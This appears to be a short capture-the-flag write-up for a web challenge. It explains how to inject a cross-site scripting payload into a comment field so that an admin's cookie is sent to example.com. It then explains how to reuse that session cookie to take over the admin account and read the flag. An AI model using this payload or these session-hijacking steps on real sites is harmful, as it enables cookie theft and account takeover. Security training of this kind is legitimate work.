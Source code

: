 This is (almost) the same as earlier, but harder, and requires knowledge of jquery. Add a page, then add a comment, edit the `input[name=comment]` to say `><img src=M onerror=location.href='http://example.com?cookie='+document.cookie;>`, and click report Abuse. This will dump the cookie to the client.

Next, just use a cookie editor to insert the session id into your own session. Now you've hijacked the session of the admin! The flag is simply named Flag.